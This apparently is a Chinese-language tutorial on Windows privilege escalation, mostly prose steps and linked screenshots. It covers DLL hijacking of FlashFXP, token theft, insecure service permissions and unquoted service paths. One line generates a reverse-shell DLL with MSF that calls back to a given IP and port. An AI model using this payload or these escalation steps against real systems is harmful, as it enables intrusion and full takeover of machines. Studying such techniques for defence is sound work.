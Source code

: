 lhost=101.37.169.46 lport=6677 -f ddl >/opt/xiaodi.dll

收集信息

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawhIHG0PnnKO5ZXqzSTibEoC5whCDzXWEI4LI2ZrXicGkeZkK4ia0KbWkTA%2F640%3Fwx_fmt%3Dpng)

发现一个flashfxp第三方软件

进程调试

在网上下载flashfxp软件

用火绒剑来调试软件

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawnjAEFau9L8cX0f8lCkxMaQGejITyERx0Y9VRLYB9u9kkOt1iaHr0HLw%2F640%3Fwx_fmt%3Dpng)

寻找非系统文件

生成dll

使用MSF生产dll,使用上述命令

替换dll,MSF监听,当软件执行时调用dll,反弹成功

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw1tNe3nic9CWoH88hUjX2tKMuo8stP1MfZuPKhhEZYZnOmr6zItguF7w%2F640%3Fwx_fmt%3Dpng)

然后再使用令牌窃取提权至system

满足条件:

y有第三方软件

能够替换dll

管理员要去运行这个程序

**win2012-不安全的服务权限配合MSF-本地权限**

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawXicrqBMr64ostJzq3br0Yh1U6reWuyCIp6nYFfZ4VhbLpjyobY332Gg%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawf924CRZiaFMsoXAOJMgckOfFdFOsoHqsWJIggfppxk2KbLNsl11Wv9g%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawKICskRgwuFFAibkO1kz2A5jftTU7SohzG0mOuaeOElP9n1Kia8aozZjg%2F640%3Fwx_fmt%3Dpng)

监听,获得会话,直接获得SYstem权限

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawIUAoJJiauSeXwrHrGvuP44e3xRIo9iaMTH7cOeyuqFNOicjtbkZia4xiaVQ%2F640%3Fwx_fmt%3Dpng)

win2012-不带引号服务路径配合MSF-web,本地提权

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawCsLdKoA9tWrSL8TjgIx1Sfo5o7xnQfnTOFWTzoznl18YWgzg4FKBAg%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawjWrpckgPoYiaCFCE5J9Ollb2uibQkwrnTQnvtkhp8z5wnJ0Beaiae5omQ%2F640%3Fwx_fmt%3Dpng)

该命令显示这两个地方可以操作。有安全问题的必须时目录里面带空格的

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw4NbAVFtN2EGBleiceOcXzXLoiaPDbUzaTdNgicu1qXkTVhbNbUTyyPrYg%2F640%3Fwx_fmt%3Dpng)

